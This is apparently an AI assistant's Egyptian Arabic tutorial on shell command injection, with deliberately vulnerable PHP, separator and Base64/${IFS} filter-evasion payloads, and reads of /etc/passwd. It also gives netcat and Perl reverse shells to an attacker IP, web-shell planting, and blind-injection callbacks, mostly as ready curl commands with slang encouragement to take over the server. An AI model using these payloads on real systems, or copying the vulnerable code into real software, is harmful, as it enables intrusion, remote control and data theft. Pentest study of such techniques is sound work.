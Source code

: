 تمام، زي ما فهمت إنك عايز شرح لنفس القسم مرة تانية "تقنيات حقن أوامر الـ Shell" (Shell Command Injection Techniques)، بس هحاول أعمل الشرح مختلف شوية في الأمثلة والتفاصيل عشان تستفيد أكتر، مع الحفاظ على نفس الطريقة: شرح عملي مع أكواد وأوامر، خلاصة Pentest بالعامية المصرية بعد كل جزء، وسيناريوهات استغلال في الآخر.

---
### **1. حقن الأوامر باستخدام الفواصل (Command Injection with Separators)**
#### **شرح عملي:**
الحقن هنا بيعتمد على إنك تضيف أوامرك للأمر الأصلي باستخدام فواصل زي `;` (للتنفيذ المتتابع)، `&&` (لو الأول نجح)، أو `|` (لتوجيه الخرج). التطبيق لو مش بيفحص المدخلات، بينفذ كل حاجة تبعتها.

- **مثال:** لو فيه أداة بحث بتستخدم `grep` على السيرفر، ممكن تضيف أمرك.

#### **كود عملي (PHP مع حقن بفواصل):**
- كود ضعيف:
```php
<?php
$search = $_GET['query'];
$output = shell_exec("grep '$search' /var/www/data.txt");
echo "<pre>$output</pre>";
?>
```
- ابعت طلب:
```
http://<IP>/search.php?query=test; whoami
```
- السيرفر هينفذ `grep 'test; whoami' /var/www/data.txt`، وبعدها `whoami` لوحده، ويرجعلك اسم المستخدم.

#### **أمر عملي (تجربة يدوية):**
```bash
curl "http://<IP>/search.php?query=hello||id"
```
- لو رجعلك `uid=33(www-data)`، يبقى الفاصل `||` نفع (ينفذ الأمر التاني لو الأول فشل).

#### **خلاصة Pentest بالعامية:**
"جرب حط فواصل زي `;` أو `||` بعد المدخل العادي، واضيف حاجة زي `id` أو `whoami`. لو السيرفر نفذها، يبقى بيسمع الكلام وتقدر تخليه يغنيلك!"

---

## **2. حقن الأوامر باستخدام التشفير أو التضليل (Obfuscation Techniques)**
#### **شرح عملي:**
لو التطبيق فيه فلتر بسيط (زي منع كلمات زي `whoami` أو `;`)، بتقدر تتجنبه بتشفير الأوامر (زي Base64) أو استخدام متغيرات Shell زي `${}` أو تضليل بالمسافات.

- **مثال:** تشفير الأمر عشان يعدي الفلتر ويتفك على السيرفر.

#### **كود عملي (PHP مع فلتر):**
- كود بيمنع `whoami`:
```php
<?php
$input = $_GET['input'];
if (strpos($input, "whoami") === false) {
    $output = shell_exec("echo " . $input);
    echo "<pre>$output</pre>";
}
?>
```
- جرب تجاوز:
```
http://<IP>/test.php?input=$(echo d2hvYW1p | base64 -d)
```
- `d2hvYW1p` هو `whoami` مشفر، السيرفر هيفك التشفير وينفذه.

#### **أمر عملي (تضليل بالمسافات):**
- لو الفلتر بيمنع `;`， جرب:
```bash
curl "http://<IP>/test.php?input=test${IFS}id"
```
- `${IFS}` بديل المسافة في Shell، ينفذ `test id`.

#### **خلاصة Pentest بالعامية:**
"لو السيرفر بيفلتر حاجات، شفر الأوامر بـ Base64 أو استخدم `${IFS}` بدل المسافة. جرب كمان حاجات زي `$(id)` وشوف لو بيعدي الفلتر ويجيبلك اللي عايزه!"

---

### **3. حقن أوامر لفتح Shell كامل (Full Shell Access)**
#### **شرح عملي:**
التقنية دي بتركز على استخدام الحقن عشان تفتح Reverse Shell أو تكتب ملف Web Shell، بدل مجرد تنفيذ أوامر بسيطة. الهدف إنك تتحكم في السيرفر بشكل كامل عن بُعد.

#### **كود عملي (Reverse Shell):**
- لو فيه ثغرة زي المثال الأول:
```
http://<IP>/search.php?query=test; nc -e /bin/bash <YOUR_IP> 4444
```
- استمع على جهازك:
```bash
nc -lvnp 4444
```
- لو اتفتحت شاشة Shell، يبقى بقيت الBoss.

#### **كود عملي (كتابة Web Shell):**
- ابعت:
```
http://<IP>/search.php?query=test; echo '<?php system($_GET[cmd]); ?>' > /var/www/html/shell.php
```
- افتح:
```
http://<IP>/shell.php?cmd=whoami
```

#### **خلاصة Pentest بالعامية:**
"لو عايز تتحكم كامل، جرب تفتح Reverse Shell بـ `nc` أو اكتب Web Shell بـ `echo`. لو نجحت، يبقى السيرفر بقى بتاعك وتقدر تعمل فيه اللي نفسك فيه!"

---

### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Basic Separators:**
   - نفذ أوامر بسيطة:
     ```bash
     curl "http://<IP>/search.php?query=test; cat /etc/passwd"
     ```
     لو رجعلك الملف، يبقى نجحت.

2. **Obfuscation:**
   - Base64:
     ```bash
     curl "http://<IP>/search.php?query=test; echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash"
     ```
     (يعني `cat /etc/passwd`).
   - Variable Substitution:
     ```bash
     curl "http://<IP>/search.php?query=test${IFS}$(whoami)"
     ```

3. **Full Shell Access:**
   - **Reverse Shell:**
     ```bash
     curl "http://<IP>/search.php?query=test; perl -e 'use Socket;\$i=\"<YOUR_IP>\";\$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));connect(S,sockaddr_in(\$p,inet_aton(\$i)));open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");'"
     ```
     استمع: `nc -lvnp 4444`.
   - **Web Shell:**
     ```bash
     curl "http://<IP>/search.php?query=test; printf '<?php system(\$_GET[cmd]); ?>' > /var/www/html/shell.php"
     ```
     استخدم: `http://<IP>/shell.php?cmd=id`.

4. **مشترك:**
   - **Blind Injection:** لو ما بيرجعش رد:
     ```bash
     curl "http://<IP>/search.php?query=test; ping -c 10 <YOUR_IP>"
     ```
     شوف الـ ping على جهازك.
   - **File Creation:** اكتب ملف:
     ```bash
     curl "http://<IP>/search.php?query=test; echo 123 > /tmp/test.txt"
     ```
     جرب تسحبه بعدين.
   - **Automated Testing:** استخدم wfuzz:
     ```bash
     wfuzz -c -z file,/usr/share/wordlists/payloads.txt "http://<IP>/search.php?query=testFUZZ"
     ```

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، أو عايز حاجة مختلفة، قوللي وأنا أفصلك!